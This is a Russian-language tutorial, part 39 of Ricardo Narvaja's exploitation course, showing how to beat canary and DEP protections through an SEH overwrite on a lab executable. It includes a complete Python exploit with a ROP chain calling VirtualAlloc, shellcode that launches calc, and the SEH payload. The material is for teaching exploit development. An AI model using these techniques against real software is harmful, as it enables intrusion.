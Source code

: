 # Часть 39

У нас остался последний случай эксплуатации переполнения стека с защитами **CANARY** и **DEP** для перезаписи **SEH**.

![](.gitbook/assets/39/01.png)

Мы переименовываем имя исполняемого файла и присоединяемся к нему с помощью **IDA**, чтобы увидеть, что случиться.

![](.gitbook/assets/39/02.png)

Так же как и раньше, программа закрывается, когда стек заканчивается. Давайте посмотрим её **SEH**,

![](.gitbook/assets/39/03.png)

Как и в предыдущем случае, программа перезаписывает указатель на гаджет **POP - POP - RET**. Давайте установим здесь **BP**.

![](.gitbook/assets/39/04.png)

Я нажимаю клавишу **F9** и принимаю исключение.

![](.gitbook/assets/39/05.png)

Здесь, как и всегда стек находится на третьей позиции. Есть указатель на поле **NEXT**.

![](.gitbook/assets/39/06.png)

Если я исполню инструкции с помощью клавиши **F7**.

![](.gitbook/assets/39/07.png)

Программа перейдёт на выполнение в стек. Эта инструкция **JMP** состоит из байтов **EB** **06** **90** **90** из поля **NEXT**, но когда я хочу исполнить эту инструкцию, я получаю ошибку.

![](.gitbook/assets/39/08.png)

Стек не может быть выполнен, потому что здесь есть защита **DEP**. Нам необходимо запустить **ROP**.

Проблема заключается в том, что стек переместился для выполнения **ROP** и наши данные не указаны регистром **ESP** для продолжения выполнения **ROP**. Поэтому, в этом случае вместо гаджета **POP** - **POP** - **RET** нам нужен гаджет, который исправляет стек к моменту выполнения инструкции **RET** этого **ГАДЖЕТ.** Он берет один из моих адресов стека для того, чтобы вернуть управление, и продолжает выполнение **ROP**.

Мы видели, что в моем случае, перед выполнением гаджета **POP – POP - RET,** регистр **ESP** равен **0xAFEF98**

![](.gitbook/assets/39/09.png)

И я буду искать этот адрес в стеке где начинаются мои данные.

Я установил этот адрес, чтобы найти непосредственное значение **0x41414141**.

![](.gitbook/assets/39/10.png)

Мы видим, что данные начинается по адресу **0xAFF5A8**. Теперь мы можем рассчитать расстояние. Данные находятся ниже **ESP**.

**HEX\(0xAFF5A8 - 0xAFEF98\)**

![](.gitbook/assets/39/11.png)

Таким образом, расстояние между **ESP** и началом моих данных равно **0x610** байт. Это означает, что если я найду гаджет

**ADD ESP, XXXX - RET**

Если значение **XXXX** больше чем **0x610** байт, когда он находится внутри диапазона стека, **ESP** будет перемещаться туда, где мои данные будут продолжать выполнение **ROP**.

Давайте посмотрим гаджеты **MYPEPE**.

![](.gitbook/assets/39/12.png)

Я вижу, что программа добавляет ещё **0x30** байт к **ESP**. Код не достигнет моего фруктового шеллкода.

К сожалению, у программы нет гаджета или, по крайней мере, я не нашел такой гаджет. Даже используя утилиту **AGAFI** у меня ничего не получается. Программа приложена к туториалу для тех, кто хочет научиться ей пользоваться.

![](.gitbook/assets/39/13.png)

Я запускаю **GISNAP** на процессе остановленном после обработки исключения, например на первом **POP** гаджета **POP** - **POP** - **RET**, без каких-либо действий.

Этот **GISNAP** будет делать дамп процесса. Затем я должен отредактировать файл **OBJECTIVE**.**TXT** программы **AGAFI** устанавливающей условие, которое мы хотим. В этом случае оно может быть таким.

**ESP = \[ESP + 0x08\]**

И мы можем настроить программу только для того, чтобы начать поиск с определенного исполняемого файла, в нашем случае это **MYPEPE**.**DLL**.

Я комментирую в файле условие и диапазон, и пишу тот, который мне нужен.

![](.gitbook/assets/39/14.png)

Затем я запускаю **AGAFI** используя имя дампа, который я сделал раньше, и сохраняю его в ту же папку и с тем же именем.

**AGAFI.EXE OBJECTIVE.TXT DUMPED.DMP PEPE.TXT**

Программа нашла некоторые редкие гаджеты, но есть одна проблема.

**----------------------------------------
\[x\] VALID GADGET AT: 7801194E
--&gt; MATHES: ESP = \[ESP + 0x8\]
--&gt; STACK USED: N/A
--&gt; PRESERVED REGISTERS:
\*\*\* 7801194E: CLC
\*\*\* 7801194F: POPA
\*\*\* 78011950: JL 0x7801195A
\*\*\* 7801195A: POP EBX
\*\*\* 7801195B: LEAVE
\*\*\* 7801195C: RET**

Это то, что происходит после его запуска. **ESP** снова указывает на **SEH** и переходит назад на тот же гаджет и разрывается второй раз для значения регистра **EBP** **0x41414141**, которое помещается в регистр **ESP** в **LEAVE** - **RET**.

Хорошо. Чтобы победить защиту и показать, как это сделать, я добавлю инструкцию **ADD** **ESP**, **XXXX** - **RET** в **MYPEPE**.

![](.gitbook/assets/39/15.png)

Мы будем использовать это как гаджет для перехода из **SEH**.

![](.gitbook/assets/39/16.png)

Давайте попробует перейти туда, где программа переставала работать, обработав исключение.

![](.gitbook/assets/39/17.png)

Мы видим, что после выполнения инструкции **ADD** **ESP**, **700** я готов продолжить выполнять наш **ROP**, а затем и сам шеллкод.

Мы видим расстояние, на которое должен идти **ROP**. Сейчас я нахожусь по адресу **ESP = 0xEFF5C0**. Давайте посмотрим где начинаются мои данные.

![](.gitbook/assets/39/18.png)

Данные начинаются по адресу **0xEFF4D4**. Я могу сделать вычитание и увидеть нужное расстояние.

![](.gitbook/assets/39/19.png)

Я подготавливаю скрипт.

**from** os **import** \*
**import** struct
**def** create\_rop\_chain\(\):
\# rop chain generated with mona.py - [www.corelan.be](http://www.corelan.be/)
rop\_gadgets = \[
0x7801eb94, \# POP EBP \# RETN \[Mypepe.dll\]
0x7801eb94, \# skip 4 bytes \[Mypepe.dll\]
0x7801ee74, \# POP EBX \# RETN \[Mypepe.dll\]
0x00000001, \# 0x00000001-&gt; ebx
0x7802920e, \# POP EDX \# RETN \[Mypepe.dll\]
0x00001000, \# 0x00001000-&gt; edx
0x7800a849, \# POP ECX \# RETN \[Mypepe.dll\]
0x00000040, \# 0x00000040-&gt; ecx
0x78028756, \# POP EDI \# RETN \[Mypepe.dll\]
0x7800b281, \# RETN \(ROP NOP\) \[Mypepe.dll\]
0x78001492, \# POP ESI \# RETN \[Mypepe.dll\]
0x780041ed, \# JMP \[EAX\] \[Mypepe.dll\]
0x78013953, \# POP EAX \# RETN \[Mypepe.dll\]
0x7802e030, \# ptr to &VirtualAlloc\(\) \[IAT Mypepe.dll\]
0x78009791, \# PUSHAD \# ADD AL,80 \# RETN \[Mypepe.dll\]
0x7800f7c1, \# ptr to 'push esp \# ret ' \[Mypepe.dll\]
\]
**return ''**.join\(struct.pack\(**'&lt;I'**, \_\) **for** \_ **in** rop\_gadgets\)

shellcode =**"\xB8\x40\x50\x03\x78\xC7\x40\x04"**+ **"calc"** + **"\x83\xC0\x04\x50\x68\x24\x98\x01\x78\x59\xFF\xD1\x68\xAB\x39\x00\x78\xC3"**

stdin,stdout = popen4\(**r'CANARY\_con\_DEP.exe -1'**\)
**print "ATACHEA EL DEBUGGER Y APRETA ENTER\n"**
raw\_input\(\)
rop= create\_rop\_chain\(\)
next=**"\x41\x41\x41\x41"**
seh=struct.pack\(**"&lt;L"**, 0x7802d415\)
data=\(0xec\) \* **"A"** + rop + shellcode

fruta = data + \(\(844-len\(data\)\) \* **"A"** \)+ next + seh + 6000 \* **"A"** + **"\n"**

**print** stdin
**print "Escribe: "** + fruta
stdin.write\(fruta\)
**print** stdout.read\(40\)

Мы видим, что скрипт использует тот же **ROP** что и раньше, и добавляет тот же шеллкод для **MYPEPE** и он работает.

![](.gitbook/assets/39/20.png)

Мы видим, что когда я прихожу в инструкцию **RET**, **ROP** остается в стеке с самого начала, чтобы продолжить исполнять **ROP** и выполнять шеллкод.

![](.gitbook/assets/39/21.png)

Теперь у нас запускается калькулятор.

**Автор текста: Рикардо Нарваха** - **Ricardo** **Narvaja** \(**@ricnar456**\)
Перевод на английский: **IvinsonCLS \(@IvinsonCLS\)**
Перевод на русский с испанского+английского: **Яша\_Добрый\_Хакер\(Ростовский фанат Нарвахи\).**
Перевод специально для форума системного и низкоуровневого программирования — **WASM.IN
08.04.2018
Версия 1.0**
